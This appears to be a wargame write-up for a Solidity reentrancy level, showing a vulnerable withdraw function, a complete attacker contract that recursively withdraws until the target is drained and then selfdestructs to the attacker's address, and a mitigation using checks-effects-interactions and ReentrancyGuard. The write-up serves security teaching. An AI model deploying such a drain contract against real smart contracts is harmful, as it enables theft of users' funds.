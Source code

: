 ```yaml
---
title: Level 10 - Reentrancy
slug: level-10
published: 05-21-2023
lastEdited:
---
```


## Objectives

1. Steal all of the funds of the contract.

## Vulnerabilities

### Reentrancy

The `withdraw` function has a **reentrancy** vulnerability. It changes the `msg.sender`'s balance only **after** sending the value which opens the door to
**reentrancy attacks**.

```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

## Exploit

1. Write and deploy a hack contract with your own _EOA_ as value for myAddress like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceHack {
    Reentrance target;

    address myAddress = 0xcC5065Fa8f55F6929E1fA52E1ee6911F12C54a7F;

    event Log(string, uint);

    constructor(address payable _targetAddress) public {
        target = Reentrance(_targetAddress);
    }

    function hack() external payable {
        target.donate{value: msg.value}(address(this));
        uint amount = target.balanceOf(address(this));
        target.withdraw(amount);
    }

    receive() external payable {
        emit Log("received ", msg.value);
        uint targetAmount = address(target).balance;
        uint myAmount = target.balanceOf(address(this));

        if(targetAmount > 0){
            target.withdraw(targetAmount <= myAmount ? targetAmount : myAmount);
        } else {
            selfdestruct(myAddress);
        }
    }
}
```

2. Call the `hack` function. If all goes as planned, the target contract should be empties and the hack contract should have selfdestruct.

## Suggested mitigation

1. First and foremost, modify `withdraw` function to follow the **checks effects interaction** patttern. In this context,

```solidity
function withdraw(uint _amount) public {
  // Checks
  require(balances[msg.sender] >= _amount, "Insufficient balance");

  //Effects
    balances[msg.sender] -= _amount;

  //Interactions
  (bool result,) = msg.sender.call{value:_amount}("");
  require(result, "Transfer failed");
}
```

2. Implement ReentrancyGuard by OpenZeppelin.

## Further reading

- The Checks Effect Interactions pattern. <ExternalLink href={"https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern"} />
- Reentrancy guard by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard"} />
